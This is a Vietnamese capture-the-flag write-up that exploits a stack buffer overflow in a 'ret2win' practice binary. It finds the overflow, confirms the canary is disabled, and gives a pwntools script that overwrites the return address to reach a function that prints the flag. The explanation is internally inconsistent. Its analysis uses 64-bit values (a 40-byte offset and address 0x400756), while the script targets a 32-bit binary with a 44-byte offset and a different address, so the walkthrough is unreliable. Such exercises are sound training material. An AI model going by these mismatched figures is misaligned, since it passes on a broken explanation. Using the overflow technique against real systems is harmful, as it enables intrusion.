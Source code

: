 **1. Tìm lỗi**

Chạy thử file bằng IDA ta có như sau: 

![main.png](photo/main.png)

Source hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo 32 byte nhưng cho nhập 0x38 = 56 byte -> Có lỗi bof

![ret2win.png](photo/ret2win.png)

Ta thấy ở hàm này thì có thể lấy được nội dung của flag

Dùng lệnh 'checksec' để kiểm tra

![checksec.png](photo/checksec.png)

Ta thấy CANARY đang ở trạng thái disabled -> có thể khai thác qua lỗi bof

**2. Ý tưởng**

Biến s cho nhập 0x38 = 56 phần tử nên thử nhập tràn biến s đến ret rồi chèn địa chỉ hàm ret2win vào

**3. Viết script**

![s.png](photo/s.png)

Địa chỉ biến s hiện tại là: rbp - 0x20 -> Khoảng cách từ biến s đến ret là: 0x20 + 0x8 = 40

![add.png](photo/add.png)

Địa chỉ hàm win là: 0x400756

Ta có script như sau:

```
from pwn import *

r = process("./ret2win32")

ret2win = 0x804862c
payload = b'a'*44 + p32(ret2win)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

Flag: ROPE{a_placeholder_32byte_flag!}